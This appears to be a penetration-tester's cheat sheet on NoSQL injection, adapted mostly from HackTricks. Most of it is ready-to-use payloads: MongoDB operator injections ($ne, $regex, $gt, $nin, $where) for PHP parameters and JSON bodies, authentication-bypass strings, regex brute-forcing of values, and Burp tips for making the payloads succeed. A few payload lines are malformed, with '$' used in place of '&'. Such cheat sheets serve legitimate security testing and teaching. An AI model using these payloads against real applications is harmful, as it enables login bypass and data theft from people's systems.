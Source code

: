 # NoSQL Injection

* Origional Author for most of content: [https://book.hacktricks.xyz/pentesting-web/nosql-injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection)

In PHP you can send an Array changing the sent parameter from _parameter=foo_ to _parameter\[arrName]=foo._

The exploits are based in adding an **Operator**:

```bash
username[$ne]=1$password[$ne]=1 #<Not Equals>
username[$regex]=^adm$password[$ne]=1 #Check a <regular expression>, could be used to brute-force a parameter
username[$regex]=.{25}&pass[$ne]=1 #Use the <regex> to find the length of a value
username[$eq]=admin&password[$ne]=1 #<Equals>
username[$ne]=admin&pass[$lt]=s #<Less than>, Brute-force pass[$lt] to find more users
username[$ne]=admin&pass[$gt]=s #<Greater Than>
username[$nin][admin]=admin&username[$nin][test]=test&pass[$ne]=7 #<Matches non of the values of the array> (not test and not admin)
{ $where: "this.credits == this.debits" }#<IF>, can be used to execute code
```

### Basic authentication bypass

**Using not equal ($ne) or greater ($gt)**

```bash
#in URL
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }
```

### **SQL - Mongo**

```
Normal sql: ' or 1=1-- -
Mongo sql: ' || 1==1//    or    ' || 1==1%00
```

### NOSQL Through Burp&#x20;

* Burp will convert payload into json format to make our lives easier.
* **Make sure to change the Content Type**

<figure><img src="https://www.evernote.com/shard/s681/res/c737ae00-e5ce-26c2-319c-7e0ae2d0b00f" alt=""><figcaption></figcaption></figure>

* Note the `Content Type` is now `application/json`&#x20;
* This has to be manually edited&#x20;
* If it is not changed the payload will not work even if it would have been successful otherwise.&#x20;
